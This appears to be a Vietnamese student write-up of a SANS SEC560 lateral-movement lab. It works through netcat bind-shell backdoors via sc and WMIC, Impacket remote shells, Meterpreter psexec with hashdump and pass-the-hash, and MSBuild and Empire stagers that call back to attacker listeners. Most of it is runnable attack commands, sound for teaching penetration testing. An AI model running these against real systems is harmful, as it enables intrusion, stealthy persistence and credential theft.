# LAB 4: Lateral Movement and Reporting

## Table of Contents

- [Tổng quan Lab 3:](#tổng-quan-lab-3)
- [Lab 4.1: Running Commands with SC and WMIC](#lab-41-running-commands-with-sc-and-wmic)
- [Cấu hình máy ảo](#cấu-hình-máy-ảo)
- [Cấu hình mạng với vmnet8 như sau:](#cấu-hình-mạng-với-vmnet8-như-sau)
- [Các bước thực hiện](#các-bước-thực-hiện)
- [Lab 4.2: Impacket](#lab-42-impacket)
- [Lab 4.3 - Pass-the-Hash](#lab-43---pass-the-hash)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)
- [Lab 4.4: MSBuild](#lab-44-msbuild)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)

---


## Tổng quan Lab 3:

| Lab 4.1 | Running Commands with SC and WMIC | 1 |
| --- | --- | --- |
| Lab 4.2 | Impacket | 14 |
| Lab 4.3 | Pass-the-Hash | 31 |
| Lab 4.4 | MSBuild | 46 |
| Lab 4.5 | Pivots | 65 |

Thực hiện các bài lab được bôi xanh.

Mô hình mạng được tri:

SEC560 Slingshot Linux (I01):

SEC560 Windows 10 (I01): 10.130.10.25

PC02:

ParrotSec6.0:

## Lab 4.1: Running Commands with SC and WMIC

## Cấu hình máy ảo

Sử dụng Slingshot Linux và
## Cấu hình mạng với vmnet8 như sau:



```bash
Ping từ máy Slingshot linux tới máy Hiboxy DC:
```


## Các bước thực hiện

Bước 1: Thiết lập "Sàn đấu" (Setup)

Để dễ hình dung, chúng ta sẽ mô phỏng cả Kẻ tấn công và Nạn nhân ngay trên cùng một máy tính. Chúng ta sẽ mở hai cửa sổ dòng lệnh với màu sắc khác nhau để phân biệt vai trò.

Thực hành:

Di chuyển vào thư mục C:\Tools và chạy file ncexer.bat bằng quyền Quản trị viên (Click chuột phải chọn Run as administrator).



Script này sẽ mở ra hai cửa sổ cmd: Màu vàng (Attacker - Kẻ tấn công) và Màu xám (Victim - Nạn nhân).

Trên cửa sổ Xám (Victim), bạn hãy chạy lệnh sau để mở một cổng kết nối chờ sẵn:

```bash
C:\Tools\nc.exe -nvlp 2222 -e cmd.exe
```



Trên cửa sổ Vàng (Attacker), hãy thử kết nối vào cái bẫy vừa giăng:

```bash
C:\Tools\nc.exe -nv 127.0.0.1 2222
```



Phân tích đơn giản: Lệnh -e cmd.exe cực kỳ nguy hiểm. Nó có nghĩa là: "Bất cứ ai kết nối thành công vào cổng 2222, hãy giao cho họ toàn quyền sử dụng giao diện dòng lệnh cmd.exe của máy này". Từ cửa sổ Vàng, bạn có thể gõ dir hoặc hostname để thấy bạn đang thực sự điều khiển máy tính này. Hãy nhấn CTRL-C ở cả hai cửa sổ để đóng kết nối và chuẩn bị cho kỹ thuật tự động hóa ở bước sau.

Bước 2: Tạo Dịch vụ (Service) ngầm bằng SC

Thay vì chạy Netcat bằng tay, hacker có đặc quyền Admin thường lợi dụng công cụ sc để cài cắm Netcat vào hệ thống dưới dạng một "Dịch vụ" (Windows Service). Bằng cách này, backdoor sẽ tự động khởi chạy và cực kỳ khó phát hiện.

Thực hành:

Trên cửa sổ Vàng, hãy lấy tên máy tính của bạn:

```bash
hostname
```



Dùng lệnh sc để tạo một dịch vụ mới tên là

```bash
ncservice:
```

```bash
sc \\Sec560Student create ncservice binpath= "c:\tools\nc.exe -l -p 2222 -e cmd.exe"
```

(Lưu ý: Bắt buộc phải có một dấu cách ngay sau chữ binpath=).



Trên cửa sổ Xám, hãy đặt một lệnh giám sát liên tục xem cổng 2222 có được mở không (cập nhật mỗi 1 giây):

```bash
netstat -nao 1 | find ":2222"
```



Quay lại cửa sổ Vàng, ra lệnh khởi động dịch vụ:

```bash
sc \\Sec560Student start ncservice
```



Phân tích đơn giản: Khi bạn ấn Start, cửa sổ Xám sẽ báo cổng 2222 chuyển sang trạng thái LISTENING. Tuy nhiên, khoảng 30 giây sau, Windows sẽ hiện thông báo lỗi và ép đóng dịch vụ. Tại sao lại như vậy? Bởi vì tệp nc.exe là một chương trình bình thường, nó không biết cách gửi tín hiệu phản hồi chuẩn (signal) cho Trình quản lý dịch vụ của Windows. Hãy nhấn CTRL-C bên cửa sổ Xám để tắt giám sát, và xóa dịch vụ lỗi này đi bằng lệnh sc \\Sec560Student delete ncservice.

Bước 3: Nâng cấp Dịch vụ (A better service)

Hacker không dễ bỏ cuộc. Để lách luật 30 giây của Windows, họ dùng một "tiểu xảo": Gọi cmd.exe khởi động trước, sau đó để cmd.exe chạy Netcat.

Thực hành:

Trên cửa sổ Vàng, tạo một dịch vụ mới tên là

```bash
ncservice2:
```

```bash
sc \\Sec560Student create ncservice2 binpath= "cmd.exe /k c:\tools\nc.exe -l -p 2222 -e cmd.exe"
```



Bật lại lệnh giám sát bên cửa sổ Xám:

```bash
netstat -nao 1 | find ":2222".

Khởi động dịch vụ xịn:

```bash
sc \\Sec560Student start ncservice2
```

Nhanh chóng kết nối vào từ cửa sổ Vàng:

```bash
c:\tools\nc.exe 127.0.0.1 2222
```



Thử gõ lệnh whoami để xem bạn đang là ai.



Phân tích đơn giản: Cờ /k yêu cầu cmd.exe chạy và giữ nguyên cửa sổ không được đóng. Nhờ đó, Windows không còn ép đóng Netcat nữa. Quan trọng hơn, vì chúng ta đang chạy dưới hình thức một Dịch vụ (Service), dòng chữ trả về cho lệnh whoami sẽ là nt authority\system. Đây là quyền lực tối thượng nhất trên máy tính Windows! (Nhấn CTRL-C ở cả 2 cửa sổ để thoát, và gõ lệnh sc \\Sec560Student delete ncservice2 để dọn dẹp bãi chiến trường).

Bước 4: Ra lệnh tàng hình bằng WMIC

Việc tạo Dịch vụ bằng sc khá lằng nhằng và để lại tệp cấu hình trong hệ thống (Registry). Một cách linh hoạt hơn, ít để lại dấu vết hơn là dùng WMIC. Công cụ này cho phép ra lệnh kích hoạt tiến trình trực tiếp trên máy nạn nhân.

Thực hành:

Trên cửa sổ Xám (Victim), hãy thiết lập một radar để theo dõi tất cả các tiến trình có tên nc.exe:

```bash
wmic process where name="nc.exe" list brief /every:1
```



Trên cửa sổ Vàng (Attacker), dùng WMIC ra lệnh cho máy nạn nhân chạy Netcat mở cổng 4444:

```bash
wmic /node:Sec560Student process call create "c:\tools\nc.exe -l -p 4444 -e cmd.exe"
```



Kết nối vào backdoor:

```bash
c:\tools\nc.exe 127.0.0.1 4444
```



Phân tích đơn giản: WMIC cho phép bạn gọi tiến trình chạy từ xa một cách cực kỳ mượt mà. Điểm hạn chế là backdoor này chỉ mang quyền của tài khoản Admin hiện tại chứ không phải quyền SYSTEM. Hơn nữa, nếu bạn để ý, kỹ thuật này làm lộ một cửa sổ đen ngòm trên màn hình nạn nhân!

Bước hoàn thiện: Để tàng hình hoàn toàn, hacker thêm cờ -d (Detached - chạy ngầm) vào lệnh của Netcat:

```bash
wmic /node:Sec560Student process call create "c:\tools\nc.exe -dlp 4444 -e cmd.exe"
```



Với chữ d nhỏ bé này, cửa sổ đen sẽ hoàn toàn biến mất, nạn nhân sẽ không mảy may nghi ngờ!

Để kết thúc bài Lab, bạn hãy tiêu diệt toàn bộ các phiên bản Netcat đang chạy ẩn bằng một lệnh WMIC cực kỳ thanh lịch:

```bash
wmic /node:Sec560Student process where name="nc.exe" delete
```
**Tổng kết: Bạn vừa thành thạo cách sử dụng hai công cụ hợp pháp của Windows (sc và wmic) để thực thi mã độc và mở đường lùi (backdoor) từ xa. Việc lạm dụng các công cụ có sẵn (Living-off-the-Land) thế này luôn là nỗi khiếp sợ của các hệ thống phần mềm diệt virus.**

## Lab 4.2: Impacket

Bước 1: Điều khiển từ xa bằng wmiexec.py

Nếu bạn có tài khoản hợp lệ của máy Windows, bạn có thể dùng wmiexec.py để tạo ra một "semi-interactive shell" (shell bán tương tác). Nó hoạt động bằng cách gửi từng lệnh qua giao thức WMI một cách lén lút và trả về kết quả cho bạn.

Thực hành:

Trên máy Linux, hãy gọi shell vào máy Windows 10 cục bộ của bạn bằng tài khoản sec560 (mật khẩu sec560). :

```bash
wmiexec.py sec560:Nam1111@@@10.130.10.25
```



Khi dấu nhắc C:\> hiện ra, hãy thử gõ vài lệnh để kiểm tra:

```bash
cd users
```

```bash
whoami
```

```bash
cd
```



Phân tích đơn giản:

Công cụ này cung cấp cho chúng ta một giao diện dòng lệnh trông có vẻ liên tục, nhưng thực chất mỗi lệnh được gửi đi và thực thi độc lập.

Dù vậy, wmiexec.py rất thông minh, nó ghi nhớ vị trí thư mục hiện tại của bạn (khi gõ cd users), nên các lệnh sau đó vẫn sẽ nằm trong đúng thư mục bạn mong muốn.

Lưu ý: Hãy gõ exit để thoát khỏi shell này trước khi sang bước 2.

Bước 2: Chiếm quyền tối cao với smbexec.py

Đôi khi quyền của người dùng bình thường là chưa đủ. Nếu bạn cần quyền SYSTEM (quyền cao nhất của Windows), hãy nhờ đến smbexec.py. Công cụ này hoạt động bằng cách lợi dụng dịch vụ chia sẻ file (SMB) để tạo ra một dịch vụ hệ thống tạm thời.

Thực hành:

Chạy lệnh sau trên máy Linux (yêu cầu quyền sudo vì nó cần mở cổng 445 để hứng kết nối trả về):

```bash
sudo smbexec.py sec560:Nam1111@@@10.130.10.25
```



Kiểm tra xem bạn đang là ai:

```bash
whoami
```

Thử chuyển thư mục bằng lệnh cd users:

```bash
cd users
```



Liệt kê file trên màn hình Desktop của nạn nhân bằng đường dẫn tuyệt đối:

dir \users\sec560\Desktop



Phân tích đơn giản:

Kết quả lệnh whoami trả về nt authority\system! Bạn đã là "Vua" của máy tính này.

Tuy nhiên, điểm yếu của smbexec.py là nó không hỗ trợ lệnh cd (bạn sẽ nhận được thông báo lỗi). Để thao tác với file, bạn bắt buộc phải gõ đường dẫn đầy đủ (đường dẫn tuyệt đối), ví dụ: dir \users\sec560.

Lưu ý: Hãy gõ exit để thoát khỏi shell này.

Bước 3: Trộm tài liệu với smbclient.py

Bây giờ, hãy giả sử chúng ta muốn lục lọi máy chủ chia sẻ file (10.130.10.25) để tìm kiếm tài liệu mật. Bằng cách sử dụng tài khoản bgreen (mật khẩu Password1) đã lấy cắp được từ trước, ta sẽ dùng smbclient.py để kết nối vào máy chủ này.

Thực hành:

Chạy lệnh kết nối vào máy chủ File Server:

```bash
smbclient.py HIBOXY/bgreen:Password1@10.130.10.25
```



Liệt kê danh sách các thư mục đang được chia sẻ:

Shares



Đi sâu vào thư mục chứa công cụ:

```bash
cd Tools/
```

```bash
ls
```



"Chôm" file nc.exe mang về máy Linux của bạn:

get nc.exe





Phân tích đơn giản:

smbclient.py hoạt động y hệt như một phần mềm FTP. Nó cung cấp các lệnh đơn giản như shares (xem thư mục chia sẻ), cd (vào thư mục), ls (xem file), và get (tải file về).

Dấu $ ở đuôi các thư mục (như C$, ADMIN$) thể hiện đây là các thư mục ẩn được chia sẻ ngầm định cho quản trị viên.

Bằng lệnh get nda.docx, bạn đã âm thầm kéo file tài liệu mật về máy tính của mình. Bạn có thể gõ exit, sau đó gõ ls -l nda.docx trên Linux để chiêm ngưỡng chiến lợi phẩm.

Bước 4: Vét cạn danh sách người dùng với lookupsid.py

Để tấn công rải mật khẩu (Password Spraying), bạn cần một danh sách tên người dùng. Nếu bạn đã có trong tay một tài khoản dù là nhỏ nhất (như bgreen), bạn có thể dùng lookupsid.py để bắt máy chủ Domain Controller nôn ra toàn bộ danh sách nhân viên trong công ty.

Thực hành:

Chạy lệnh trích xuất tên người dùng từ máy chủ Domain Controller (10.130.10.25):

```bash
lookupsid.py hiboxy.com/bgreen:Password1@10.130.10.25
```



Phân tích đơn giản:

Công cụ này hoạt động bằng cách đoán (brute-force) các dãy số Định danh bảo mật (SID - Security Identifier) trên Windows. Mỗi người dùng, máy tính, hay nhóm trên Domain đều có một SID riêng.

Kết quả trả về cho bạn một danh sách đầy đủ toàn bộ người dùng hiện có trong hệ thống (như Administrator, krbtgt, Guest, v.v.), kèm theo các nhóm mà họ thuộc về. Đây là một "mỏ vàng" cho các cuộc tấn công dò mật khẩu tiếp theo!
**Tổng kết: Xuyên suốt bài Lab này, bạn đã thấy bộ công cụ Impacket nguy hiểm và linh hoạt đến mức nào. Chỉ với vài câu lệnh Python gọn nhẹ, chúng ta đã có thể thực thi mã từ xa, leo thang đặc quyền lên SYSTEM, lục lọi file mật, và trích xuất sơ đồ nhân sự của mục tiêu. Cùng chuẩn bị sang kỹ thuật tiếp theo để áp dụng những gì chúng ta vừa lấy được nhé!**

## Lab 4.3 - Pass-the-Hash
## Mục tiêu của chúng ta:

Dùng module psexec của Metasploit để thâm nhập và cấy Meterpreter vào mục tiêu.

Trích xuất mã băm và dùng nó để đăng nhập vào các máy tính khác mà không cần biết mật khẩu thật.

Bước 1: Thâm nhập và thu thập "khuôn chìa khóa" (Obtaining Hashes)

Để có mã băm đi tấn công, trước tiên ta phải trộm nó từ một máy nào đó. Chúng ta sẽ dùng thông tin đăng nhập đã biết từ trước (bgreen:Password1) để xâm nhập vào máy chủ Web01 (10.130.10.5), sau đó dùng lệnh hashdump để vét sạch cơ sở dữ liệu mật khẩu.

Thực hành:

Trên máy Linux, khởi động Metasploit, gọi module psexec và nạp thông tin mục tiêu:

```bash
msfconsole
```

```bash
use exploit/windows/smb/psexec
```

```bash
set payload windows/meterpreter/reverse_tcp
```

```bash
set smbuser bgreen
```

```bash
set smbpass Password1
```

```bash
set smbdomain hiboxy
```

```bash
set rhosts 10.130.10.25
```

```bash
set lhost 10.130.10.128
```



Khai hỏa để lấy phiên Meterpreter và tiến hành rút mã băm:

run

```bash
run post/windows/gather/hashdump
```



Phân tích đơn giản: Lệnh run sẽ dùng tài khoản bgreen để cài mã độc và mở cho ta một phiên điều khiển Meterpreter. Sau đó, module hashdump thọc sâu vào hệ thống để lấy toàn bộ mã băm. Hãy chú ý đến dòng chứa tài khoản antivirus. Trông nó có vẻ giống một tài khoản dịch vụ được dùng chung cho nhiều máy, đây sẽ là con mồi lý tưởng của chúng ta.

Bước 2: Nạp đạn bằng Mã băm (Using the Hashes)

Bây giờ, thay vì đi bẻ khóa mã băm của tài khoản antivirus cho tốn thời gian, chúng ta sẽ dùng thẳng nó làm vũ khí. Ta sẽ nhắm mục tiêu vào 7 máy tính khác đang mở cổng 445 (SMB) trong mạng để xem máy nào dùng chung tài khoản này.

Thực hành:

Đưa phiên hiện tại xuống chạy ngầm và thiết lập lại tài khoản tấn công là antivirus:

```bash
background
```

```bash
set smbuser antivirus
```

unset smbdomain



Copy toàn bộ đoạn mã băm của tài khoản antivirus (bao gồm cả LM hash và NT hash cách nhau bởi dấu hai chấm) và dán thẳng vào phần smbpass:

```bash
set smbpass aad3b435b51404eeaad3b435b51404ee:12ae851bc310750f4ce00e3c7ef9b658
```



Nạp danh sách 7 máy tính mục tiêu:

```bash
set rhosts 10.130.10.4,6,21,25,33,44,45
```



Phân tích đơn giản: Điểm ma thuật ở đây là lệnh set smbpass. Thông thường bạn sẽ nhập mật khẩu như Password123, nhưng Windows (thông qua giao thức SMB) cho phép bạn gửi trực tiếp chuỗi Hash LM:NT này để xác thực. Lệnh unset smbdomain giúp ta xác thực bằng tài khoản cục bộ thay vì tài khoản miền. Kỹ thuật này gọi là Pass-the-Hash.

Bước 3: Khai hỏa trên diện rộng (Exploit)

Chúng ta đã gài mã băm vào súng. Hãy quét qua toàn bộ 7 máy tính xem ổ khóa nào vừa với khuôn chìa này!

Thực hành:

Khởi chạy cuộc tấn công:

run



Phân tích đơn giản: Metasploit sẽ chạy qua từng IP một. Đối với hầu hết các máy, bạn sẽ thấy lỗi STATUS_ACCESS_DENIED (Từ chối truy cập) vì tài khoản này không có quyền Admin trên đó. Tuy nhiên, với máy .45, bạn sẽ thấy thông báo Meterpreter session opened. Điều này chứng tỏ tài khoản antivirus là Quản trị viên trên máy này, và chúng ta vừa chiếm thêm 2 máy chủ thành công chỉ bằng một chuỗi mã băm!

Bước 4: Tương tác và Khẳng định quyền lực (Meterpreter Shell)

Đối với hệ thống, bạn vừa đăng nhập hoàn toàn hợp lệ, chúng không hề biết bạn không có mật khẩu thật. Hãy vào một máy và thử tạo một tài khoản mới xem quyền hạn của ta đến đâu.

Thực hành:

Xem danh sách các phiên đang mở và nhảy vào tương tác với phiên số 2 (hoặc số tương ứng với máy .21):

```bash
sessions -l
```

```bash
sessions -i 2
```



Kiểm tra xem ta đang là ai:

```bash
getuid
```



Nhảy vào giao diện lệnh (shell) của Windows và thử tạo một tài khoản tên là HACKER:

```bash
shell
```

```bash
whoami
```

```bash
net user HACKER Password123 /add
```



Phân tích đơn giản: Lệnh getuid và whoami trả về kết quả NT AUTHORITY\SYSTEM. Đây là quyền cao nhất trên Windows. Chúng ta dễ dàng chạy lệnh net user /add để tạo một tài khoản mới, khẳng định rằng hệ thống này hiện đã hoàn toàn nằm dưới quyền kiểm soát của chúng ta.

Dọn dẹp: Bạn có thể gõ exit nhiều lần (hoặc exit -y) để thoát khỏi shell, thoát Meterpreter và đóng Metasploit.
**Tổng kết: Thật tuyệt vời đúng không! Bạn đã chứng minh được sự nguy hiểm của việc dùng chung tài khoản quản trị (như antivirus) trên nhiều máy khác nhau. Chỉ cần một máy bị lộ mã băm, hacker có thể dùng kỹ thuật Pass-the-Hash để thâm nhập tất cả các máy còn lại (Lateral Movement) mà không tốn một giây nào để bẻ khóa mật khẩu!**

## Lab 4.4: MSBuild
## Mục tiêu của chúng ta:

Sử dụng MSBuild để qua mặt các chính sách kiểm soát ứng dụng.

Dùng MSBuild để kích hoạt payload của Metasploit/Meterpreter.

Tạo file cấu hình XML tự động bằng Empire để nạp mã độc.

Bước 1 & 2: Khởi động nhẹ nhàng (Chạy thử mã C# qua file XML)

MSBuild vốn dùng để đọc các file cấu hình (thường là XML) chứa mã nguồn và biên dịch chúng thành chương trình. Chúng ta sẽ thử chèn một đoạn mã C# đơn giản vào file XML xem MSBuild có chịu chạy không nhé.

Thực hành:

Trên máy ảo Windows, mở file build1.xml nằm trong thư mục C:\CourseFiles bằng Notepad++.



Tìm đến dòng PUT CODE TO EXECUTE HERE; và thay thế nó bằng đoạn mã sau:

Console.WriteLine("Hello SEC560!");

(Hãy chắc chắn có dấu chấm phẩy ; ở cuối dòng nhé)



Lưu file build1.xml lại.

Mở Command Prompt (cmd.exe) (đừng dùng PowerShell vì kết quả sẽ bị rối) và gõ lệnh sau để gọi công cụ MSBuild biên dịch và chạy file XML của chúng ta:

```bash
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\CourseFiles\build1.xml
```



Phân tích đơn giản: Bùm! Dòng chữ Hello SEC560! đã hiện ra. Chúng ta vừa chứng minh được rằng mình có thể thực thi mã tùy ý (C#) chỉ bằng cách nhét nó vào một file văn bản XML và đưa cho MSBuild chạy. Vì MSBuild là công cụ xịn của Windows, hệ thống phòng thủ sẽ vui vẻ cho phép nó hoạt động.

Bước 3: Cấy Meterpreter bằng MSBuild

In ra dòng chữ "Hello" thì vui đấy, nhưng chúng ta là hacker cơ mà! Giờ ta sẽ tạo một đoạn mã độc thực sự (shellcode Meterpreter), nhét nó vào file XML và dùng MSBuild để mở một cửa hậu (backdoor).

Thực hành:

Chuyển sang máy Linux. Mở Metasploit và dựng trạm lắng nghe (Listener):

```bash
msfconsole
```

```bash
use exploit/multi/handler
```

```bash
set payload windows/meterpreter/reverse_tcp
```

```bash
set lhost 0.0.0.0
```

```bash
set lport 3333
```

run



Mở một Tab Terminal mới trên Linux. Dùng msfvenom để chế tạo Shellcode dạng ngôn ngữ C# (cờ -f csharp):

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.130.10.128 lport=3333 -f csharp | tee /tmp/payload.txt
```



Bật Web Server để tải file payload.txt sang Windows:

```bash
cd /tmp
```

```bash
python3 -m http.server
```



Quay lại máy Windows, mở trình duyệt web, gõ địa chỉ http://10.130.10.128:8000/ và mở file payload.txt lên.



Copy toàn bộ nội dung trong file văn bản đó.

Mở file C:\CourseFiles\build2.xml, tìm dòng // PUT YOUR SHELLCODE HERE; và Paste (Dán) đoạn shellcode vừa copy vào ngay bên dưới. Lưu file lại.



Tại Command Prompt của Windows, ra lệnh cho MSBuild kích nổ file XML thứ hai này:

```bash
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\CourseFiles\build2.xml
```





Phân tích đơn giản: Lần này, giao diện Command Prompt trên Windows sẽ bị "treo". Đừng lo, đó là dấu hiệu của sự thành công! Chuyển sang cửa sổ Metasploit trên Linux, bạn sẽ thấy phiên Meterpreter đã kết nối về máy. Hãy gõ thử sysinfo hoặc getuid để tận hưởng quyền lực. (Sau khi xong, gõ exit -y để thoát Metasploit nhé).

Bước 4: Tự động hóa hoàn toàn với Empire

Cách làm ở Bước 3 khá thủ công vì ta phải tự đi copy-paste từng dòng shellcode. Rất may, Framework PowerShell Empire cung cấp sẵn một công cụ tạo luôn file XML hoàn chỉnh cho MSBuild chỉ bằng vài cú gõ phím!

Thực hành:

Trên máy Linux, khởi động Empire Server và Client ở 2 tab Terminal khác nhau: Tab 1:

```bash
cd /opt/empire
```

```bash
sudo ./ps-empire server
```



Tab 2:

```bash
cd /opt/empire
```

```bash
/opt/empire/ps-empire client
```



Tạo trạm lắng nghe (Listener):

```bash
uselistener http
```

```bash
set Host http://10.130.10.128:9999
```

```bash
set Port 9999
```

execute



Ra lệnh tạo vũ khí file XML:

```bash
usestager windows/launcher_xml
```

```bash
set Listener http
```

```bash
generate
```



File launcher.xml đã được tự động tạo ra. Hãy mở một tab Terminal mới, bật Web server ở thư mục chứa nó:

```bash
cd /opt/empire/empire/client/generated-stagers
```

```bash
python3 -m http.server
```



Trở lại máy Windows, dùng trình duyệt tải file launcher.xml về Desktop.

Khởi chạy MSBuild với file XML mới này:

```bash
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\Users\sec560\Desktop\launcher.xml
```





Phân tích đơn giản: Lệnh usestager windows/launcher_xml của Empire là một tuyệt tác. Nó tự động gói gọn toàn bộ shellcode lây nhiễm vào một cấu trúc XML chuẩn của Microsoft. Ngay khi bạn chạy lệnh MSBuild trên Windows, hãy quay lại giao diện Empire Client trên Linux và gõ agents, bạn sẽ thấy một "điệp viên" mới vừa báo cáo có mặt!

Dọn dẹp: Trước khi kết thúc, hãy gõ các lệnh sau trong Empire Client để dọn dẹp chiến trường:

agents

kill all

y

listeners

kill all

```bash
exit
```

y





**Tổng kết: Sử dụng các công cụ hợp pháp có sẵn của hệ điều hành (như MSBuild) để chạy mã độc là một chiến thuật tấn công tinh vi và cực kỳ khó phòng thủ. Khác với việc cố viết mã độc né phần mềm diệt virus (AV bypass), việc lách qua cổng Application Control bằng cách dùng chính "chìa khóa" của Microsoft sẽ mang lại cho bạn quyền truy cập lâu dài và ổn định hơn rất nhiều!**
```